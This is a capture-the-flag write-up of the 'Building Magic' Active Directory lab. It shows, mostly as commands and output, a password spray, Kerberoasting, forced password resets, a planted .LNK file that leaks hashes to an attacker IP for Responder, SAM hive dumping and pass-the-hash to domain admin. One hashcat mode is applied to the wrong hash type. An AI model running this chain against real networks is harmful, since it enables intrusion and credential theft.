



# Building Magic (Hack Smarter Labs)

## Scope and Objective

**Objective:** As a penetration tester on the Hack Smarter Red Team, your aim is to achieve a full compromise of the Active Directory environment.

**Initial Access:** A prior enumeration phase has yielded a leaked database containing user credentials (usernames and hashed passwords). This information will serve as your starting point for gaining initial access to the network.

**Execution:** Your task is to leverage the compromised credentials to escalate privileges, move laterally through the Active Directory, and ultimately achieve a complete compromise of the domain.

**Note to user:** To access the target machine, you must add the following entries to your /etc/hosts file:
    
    buildingmagic.local
    dc01.buildingmagic.local
    
**Leaked Database File:**
```bash
id	username	full_name	role		password
1	r.widdleton	Ron Widdleton	Intern Builder	c4a21c4d438819d73d24851e7966229c
2	n.bottomsworth	Neville Bottomsworth Plannner	61ee643c5043eadbcdc6c9d1e3ebd298
3	l.layman	Luna Layman	Planner		8960516f904051176cc5ef67869de88f
4	c.smith		Chen Smith	Builder		bbd151e24516a48790b2cd5845e7f148
5	d.thomas	Dean Thomas	Builder		4d14ff3e264f6a9891aa6cea1cfa17cb
6	s.winnigan	Samuel Winnigan	HR Manager	078576a0569f4e0b758aedf650cb6d9a
7	p.jackson	Parvati Jackson	Shift Lead	eada74b2fa7f5e142ac412d767831b54
8	b.builder	Bob Builder	Electrician	dd4137bab3b52b55f99f18b7cd595448
9	t.ren		Theodore Ren	Safety Officer	bfaf794a81438488e57ee3954c27cd75
10	e.macmillan	Ernest Macmillan Surveyor	47d23284395f618bea1959e710bc68ef
```

---

## Initial Recon

### Nmap Scan
I always start with a simple `nmap` scan:
```bash
nmap 10.0.29.68

Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-21 10:17 PKT
Nmap scan report for buildingmagic.local (10.0.29.68)
Host is up (0.23s latency).
Not shown: 985 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 13.21 seconds
```
The scan shows the usual `AD` ports open, plus a web server is running.

Then, I go for an aggressive scan (`-A`) against the open ports:
```bash
nmap -A -p 53,80,88,135,139,389,445,464,593,636,3268,3269,3389,8080 10.0.29.68 -o nmap-scan.log

Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-21 10:18 PKT
Nmap scan report for buildingmagic.local (10.0.29.68)
Host is up (0.28s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-12-21 05:19:06Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BUILDINGMAGIC.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BUILDINGMAGIC.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-12-21T05:20:12+00:00; -2s from scanner time.
| ssl-cert: Subject: commonName=DC01.BUILDINGMAGIC.LOCAL
| Not valid before: 2025-09-02T21:29:10
|_Not valid after:  2026-03-04T21:29:10
| rdp-ntlm-info: 
|   Target_Name: BUILDINGMAGIC
|   NetBIOS_Domain_Name: BUILDINGMAGIC
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: BUILDINGMAGIC.LOCAL
|   DNS_Computer_Name: DC01.BUILDINGMAGIC.LOCAL
|   Product_Version: 10.0.20348
|_  System_Time: 2025-12-21T05:19:33+00:00
8080/tcp open  http          Werkzeug httpd 3.1.3 (Python 3.13.3)
|_http-title: Building Magic Application Portal
|_http-server-header: Werkzeug/3.1.3 Python/3.13.3
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 3 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-12-21T05:19:33
|_  start_date: N/A
|_clock-skew: mean: -2s, deviation: 0s, median: -2s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 139/tcp)
HOP RTT       ADDRESS
1   319.12 ms 10.200.0.1
2   ...
3   323.73 ms buildingmagic.local (10.0.29.68)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.15 seconds
```
The web server is just the default Microsoft IIS server page.

---

## Hash Cracking

We were given a leaked database file with potential usernames and password hashes.

The go-to utility for me when cracking hashes is [CrackStation](crackstation.net):



Successful cracks:
`lilronron` `shadowhex7`

---

## Identifying Valid Credentials

I've got a list of potential usernames:
```bash
cat users.txt

r.widdleton
n.bottomsworth
l.layman
c.smith
d.thomas
s.winnigan
p.jackson
b.builder
t.ren
e.macmillan
```
I did a password spray against the list of usernames with the pair of cracked password hashes and identified valid credentials:
```bash
nxc smb 10.0.29.68 -u users.txt -p 'lilronron'

SMB         10.0.29.68      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:BUILDINGMAGIC.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)                                   
SMB         10.0.29.68      445    DC01             [+] BUILDINGMAGIC.LOCAL\r.widdleton:lilronron
```
`r.widdleton:lilronron`

---

## SMB Enumeration

One of the first things I usually do when solving AD labs is enumerate SMB.

First, I check for guest / anonymous login. This time around, I discovered valid domain creds, so I went with that:
```bash
nxc smb 10.0.29.68 -u r.widdleton -p 'lilronron' --shares

SMB         10.0.29.68      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:BUILDINGMAGIC.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                             
SMB         10.0.29.68      445    DC01             [+] BUILDINGMAGIC.LOCAL\r.widdleton:lilronron 
SMB         10.0.29.68      445    DC01             [*] Enumerated shares
SMB         10.0.29.68      445    DC01             Share           Permissions     Remark
SMB         10.0.29.68      445    DC01             -----           -----------     ------
SMB         10.0.29.68      445    DC01             ADMIN$                          Remote Admin
SMB         10.0.29.68      445    DC01             C$                              Default share
SMB         10.0.29.68      445    DC01             File-Share                      Central Repository of Building Magic's files.
SMB         10.0.29.68      445    DC01             IPC$            READ            Remote IPC
SMB         10.0.29.68      445    DC01             NETLOGON                        Logon server share 
SMB         10.0.29.68      445    DC01             SYSVOL                          Logon server share
```
Nothing interesting found.

---

## Domain Enumeration

The next step is to enumerate the domain.
### Users
First, I use `netexec` to enumerate domain users:
```bash
nxc ldap buildingmagic.local -u r.widdleton -p 'lilronron' --users

LDAP        10.0.29.68      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:BUILDINGMAGIC.LOCAL) (signing:None) (channel binding:No TLS cert)                                                                                                 
LDAP        10.0.29.68      389    DC01             [+] BUILDINGMAGIC.LOCAL\r.widdleton:lilronron 
LDAP        10.0.29.68      389    DC01             [*] Enumerated 8 domain users: BUILDINGMAGIC.LOCAL
LDAP        10.0.29.68      389    DC01             -Username-                    -Last PW Set-       -BadPW-  -Description-           
LDAP        10.0.29.68      389    DC01             Administrator                 2025-06-15 07:00:21 0        Built-in account for administering the computer/domain                                               
LDAP        10.0.29.68      389    DC01             Guest                         <never>             1        Built-in account for guest access to the computer/domain                                             
LDAP        10.0.29.68      389    DC01             krbtgt                        2025-05-06 03:18:37 1        Key Distribution Center Service Account
LDAP        10.0.29.68      389    DC01             h.potch                       2025-09-02 22:56:09 0                                
LDAP        10.0.29.68      389    DC01             r.widdleton                   2025-05-16 02:08:40 0                                
LDAP        10.0.29.68      389    DC01             r.haggard                     2025-05-16 02:09:04 1                                
LDAP        10.0.29.68      389    DC01             h.grangon                     2025-05-30 02:32:45 1                                
LDAP        10.0.29.68      389    DC01             a.flatch                      2025-06-15 07:57:05 0        Project Manager
```

### Domain
Before using `BloodHound` for enumerating the domain, I like to use `ldapdomaindump`. Just a personal choice, you can go straight to `BloodHound`:
```bash
ldapdomaindump -u buildingmagic.local\\'r.widdleton' -p 'lilronron' dc01.buildingmagic.local

[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
                                                                                                                                                             
ls
                                                             
domain_computers_by_os.html  domain_computers.json  domain_groups.json  domain_policy.json  domain_trusts.json          domain_users.html
domain_computers.grep        domain_groups.grep     domain_policy.grep  domain_trusts.grep  domain_users_by_group.html  domain_users.json
domain_computers.html        domain_groups.html     domain_policy.html  domain_trusts.html  domain_users.grep
```
```bash
open domain_users.html
```

Looking at the domain users and groups, I get a rough idea of the attack path.

---

## Exploitation & Lateral Movement

### Attack: Kerberoasting
I identified a `ServicePrincipalName` (SPN) associated with the `r.haggard` user, so I'll attempt `keberoasting`:


```bash
nxc ldap buildingmagic.local -u r.widdleton -p 'lilronron' --kerberoasting output.txt
LDAP        10.0.29.68      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:BUILDINGMAGIC.LOCAL) (signing:None) (channel binding:No TLS cert)                                                                                                                                             
LDAP        10.0.29.68      389    DC01             [+] BUILDINGMAGIC.LOCAL\r.widdleton:lilronron 
LDAP        10.0.29.68      389    DC01             [*] Skipping disabled account: krbtgt
LDAP        10.0.29.68      389    DC01             [*] Total of records returned 1
LDAP        10.0.29.68      389    DC01             [*] sAMAccountName: r.haggard, memberOf: [], pwdLastSet: 2025-05-16 02:09:04.002067, lastLogon: 2025-05-16 03:34:51.644710
LDAP        10.0.29.68      389    DC01             $krb5tgs$23$*r.haggard$BUILDINGMAGIC.LOCAL$BUILDINGMAGIC.LOCAL\r.haggard*$b0809977dfeed72c3f6e3e1da2afc1a2$c06db97d7ed5cde027a6ec44c68fc591bc65785073ae10eb97d2b11c712957be9d8cf76aca5101345c9b31b2fad8883a88e9a6f8c7fc14b4379291ae73dfe6ec4a7626402970e97ca70669c2c3ad3eeb12827d0a55310ae2b04ec321f7e9fa00cf4065d12e0e3e409cae7561609704598a0e4fb9f70d2ac395bb744efcbb3b8bb335b228c830f7c7d7a281a7c638bcc8f2dcab925c4b8da3f7d22b37b92931a2b6e2c3f2d16a1ed76a5b61c2e091c60b6c83eb5453b43989b0043700e81548c2916e4f9c2da48fcb80a8aeef0fa7dcd26b7189bd38e135485aa4f9e9088a7d1e15e2d4c8ac724737844410eed4a5b327fd4b362df24e0ad11400e7aaaf23088d7ff1452c235672469d3e65ddb68f05acdd60fccd3a67b29ab0d228306166f2f658d1879ce496d68e157e2aecaead9dc5cba05085b5f1739992c021b87206b9571e4ac08c904c5208e6739ecb8ce02ccf62b01021686e5442a61b2299e5bae6c778d4e84187d66289c32df9561c6cbdac683c3ea657c4e9d4c73ed4017bb8a246769380b022151a3f5497a44867247e09b2ded931e7136d4e1831979e7347026eca800320e371a85ff7df9708fd8daec0f30336be13835af4e3e1d342b4166dc439ff7c3a59e20c4fc90d3dc291b7e2c28b963032a931040bc3d728032c9bb6aed1f107d705f225a820e973aab6be4f0f0b09222c9582807dd6abc836a5631c55e2ee7c2e71e0daab8982c3afa8bfe0824dcd34ce189f93e6b5980b0a7b5c500746a378557d8f35c2ebc3570179f067e02690dd0e0db7140a8fec2d2a0dcca3067aaba4fddf52ce0e096e26104e5e86197874c7912409fcd7f3df175884eebc0209a97af09cc8d27abfcd8db87dc9c5f63a7567d8833c31bfb748221d7e28667fdfd1b6a61ec72be9f0f26c168ad1d7bb569f0cf01d0c6cb3cf50c8f3ef488bcc5abf723e10f3368ad4e2dafbe5349dbf1d34bd82a22be997294eb72fca232b51d1db048470821e4130293f70267beb6d6292f9ee997e1cd326dad7540243d627f176c6c250d9ca6309f321117086a96fcdc8f7106b5c603dd4f8e337610e78fb1565d6bea64f7c05190421a195178ebd074fbb0c3af2caef1f939aaf76d697a5cdcd785ec6a567da1de24722d3a2705341a8bab7a42eed51308d305b1fe3980010425252a6f5059e13ca9bd3809fc094a20a8ab9aa04e28e3b1c28d74f9cbbb8c43746c9a263cbb16f2d524d5574fe47be6a1cfc41fe21b3e304f6b1125fa4e8a2f0303c14dc58a9e049982d5fdd464dad102e339082307ddf3ee041841a73c05e3aac1a8d786c628630bd5e31e9021d5fd5e942370a2b6b57eb44cee45a15bcbb6fc60d5bcbe60c369b615e86b313b9eadd5ac6aa119dcaf05c58294b48a06e6f240c27aaebcac500a5d37374afa49fc161f1ff969bb18babb01d8ca647b261c113032f581e2c531af0a50240c18c2907127571f21d575d54ffff713ddfff3a518ea392ac238ce8937c956e6e323b50dfdf64049b638cf9e99d4c02c135f6af08be53762a2e5473dced4ca88b1523
```
Got the `krb5tgs` hash for the `r.haggard` user.

### Hash Cracking
Using `hashcat` to crack the hash:
```bash
hashcat -m 13100 output.txt /usr/share/wordlists/rockyou.txt
```
Another user compromised!
`r.haggard:rubeushagrid`

### Compromising the `h.potch` User
The `r.haggard` user has an outbound object control (change password) over the `h.potch` user.

I used `bloodyAD` to change the password of the `h.potch` user:
```bash
bloodyAD -d buildingmagic.local -u 'r.haggard' -p 'rubeushagrid' --dc-ip 10.0.29.68 set password h.potch 123456  
[+] Password changed successfully!
```
`h.potch:123456`

Enumerating the SMB shares as the `h.potch` user, I identified a writable share:
```bash
nxc smb 10.0.29.68 -u h.potch -p '123456' --shares

SMB         10.0.29.68      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:BUILDINGMAGIC.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                                         
SMB         10.0.29.68      445    DC01             [+] BUILDINGMAGIC.LOCAL\h.potch:123456 
SMB         10.0.29.68      445    DC01             [*] Enumerated shares
SMB         10.0.29.68      445    DC01             Share           Permissions     Remark
SMB         10.0.29.68      445    DC01             -----           -----------     ------
SMB         10.0.29.68      445    DC01             ADMIN$                          Remote Admin
SMB         10.0.29.68      445    DC01             C$                              Default share
SMB         10.0.29.68      445    DC01             File-Share      READ,WRITE      Central Repository of Building Magic's files.
SMB         10.0.29.68      445    DC01             IPC$            READ            Remote IPC
SMB         10.0.29.68      445    DC01             NETLOGON        READ            Logon server share 
SMB         10.0.29.68      445    DC01             SYSVOL          READ            Logon server share
```
> We've discovered a writable share.

### .LNK File Attack
I used `netexec`'s `slinky` module to generate a malicious `.LNK` file and write it to the share:
```bash
nxc smb 10.0.29.68 -u h.potch -p '123456' -M slinky -o name=hello server=10.200.24.233

SMB         10.0.29.68      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:BUILDINGMAGIC.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                                         
SMB         10.0.29.68      445    DC01             [+] BUILDINGMAGIC.LOCAL\h.potch:123456 
SMB         10.0.29.68      445    DC01             [*] Enumerated shares
SMB         10.0.29.68      445    DC01             Share           Permissions     Remark
SMB         10.0.29.68      445    DC01             -----           -----------     ------
SMB         10.0.29.68      445    DC01             ADMIN$                          Remote Admin
SMB         10.0.29.68      445    DC01             C$                              Default share
SMB         10.0.29.68      445    DC01             File-Share      READ,WRITE      Central Repository of Building Magic's files.
SMB         10.0.29.68      445    DC01             IPC$            READ            Remote IPC
SMB         10.0.29.68      445    DC01             NETLOGON        READ            Logon server share 
SMB         10.0.29.68      445    DC01             SYSVOL          READ            Logon server share 
SLINKY      10.0.29.68      445    DC01             [+] Found writable share: File-Share
SLINKY      10.0.29.68      445    DC01             [+] Created LNK file on the File-Share share
```
How this works is that the `.LNK` file is rendered to point to a path, which is the IP address of the attacker. When a user accesses the share, the Windows Explorer tries to render the path of that file, and to do that, it connects to the attacker's IP. For authentication, Windows sends the NetNTLMv2 hash of the user to the attacker.
```bash
sudo responder -I tun0 -dP
```
Using `responder`, we caught the hash of the user `h.grangon`.

### Hash Cracking
Again, using hashcat to crack the hash:
```bash
hashcat -m 13100 output2.txt /usr/share/wordlists/rockyou.txt
```
`h.grangon:magic4ever`

> The `h.grangon` user is a member of the Remote Management Users group.

### Initial System Access
I get a remote session of the target as the `h.grangon` user, using `evil-winrm`:
```bash
evil-winrm -i 10.0.29.68 -u h.grangon                                                
Enter Password: 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\h.grangon\Documents>
```

### Get user.txt
Got `user.txt`:
```bash
C:\Users\h.grangon\Desktop> dir


    Directory: C:\Users\h.grangon\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          9/2/2025   7:41 PM           2308 Microsoft Edge.lnk
-a----          9/2/2025   7:41 PM             32 user.txt


*Evil-WinRM* PS C:\Users\h.grangon\Desktop> type user.txt
701b51527b6d41******************
```

---

## Domain Compromise

### Abusing a Privilege
To elevate my privileges, I first look at the privileges assigned to the `h.grangon` user:
```bash
C:\Users\h.grangon\Desktop> whoami /all

USER INFORMATION
----------------

User Name               SID
======================= =============================================
buildingmagic\h.grangon S-1-5-21-934388623-3731635803-3176817623-1113


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```
The user has `SeBackupPrivilege` enabled.

You can learn more about this privilege and how to exploit it, here: [SeBackupPrivilege](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md)

I used this privilege to back up the SAM & SYSTEM registry hives:
```bash
mkdir C:\temp
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive
```
```bash
Evil-WinRM* PS C:\temp> download sam.hive
Info: Downloading C:\temp\sam.hive to sam.hive
Info: Download successful!

*Evil-WinRM* PS C:\temp> download system.hive
Info: Downloading C:\temp\system.hive to system.hive
Info: Download successful!
```
Transferred the backup files to my system.

Then I used the `impacket-secretsdump` from the `impacket` library to dump the NTLM hashes.
```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xf61a94fb13f74350a1f87f509c8c455c
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:520126a03f5d5a8d836f1c4f34ede7ce:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up... 
```
Identified the hash is of the `a.flatch` user, which is a domain admin:
```bash
nxc smb 10.0.29.68 -u users.txt -H "520126a03f5d5a8d836f1c4f34ede7ce"

SMB         10.0.29.68      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:BUILDINGMAGIC.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                                         
SMB         10.0.29.68      445    DC01             [-] BUILDINGMAGIC.LOCAL\r.widdleton:520126a03f5d5a8d836f1c4f34ede7ce STATUS_LOGON_FAILURE 
SMB         10.0.29.68      445    DC01             [-] BUILDINGMAGIC.LOCAL\h.potch:520126a03f5d5a8d836f1c4f34ede7ce STATUS_LOGON_FAILURE 
SMB         10.0.29.68      445    DC01             [-] BUILDINGMAGIC.LOCAL\r.haggard:520126a03f5d5a8d836f1c4f34ede7ce STATUS_LOGON_FAILURE 
SMB         10.0.29.68      445    DC01             [-] BUILDINGMAGIC.LOCAL\h.grangon:520126a03f5d5a8d836f1c4f34ede7ce STATUS_LOGON_FAILURE 
SMB         10.0.29.68      445    DC01             [-] Error checking if user is admin on 10.0.29.68: The NETBIOS connection with the remote host timed out.
SMB         10.0.29.68      445    DC01             [+] BUILDINGMAGIC.LOCAL\a.flatch:520126a03f5d5a8d836f1c4f34ede7ce 
```

### Get root.txt
Using the `PassTheHash` attack, I got a remote session of the DC:
```bash
evil-winrm -i 10.0.29.68 -u "a.flatch" -H "520126a03f5d5a8d836f1c4f34ede7ce"
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\a.flatch\Documents> whoami
buildingmagic\a.flatch
*Evil-WinRM* PS C:\Users\a.flatch\Desktop> cd ../../Administrator/Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         6/12/2025   1:37 PM                nssm-2.24
-a----          9/2/2025   4:24 PM             32 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
9557e65743416c******************
```
Got the `root.txt` flag.
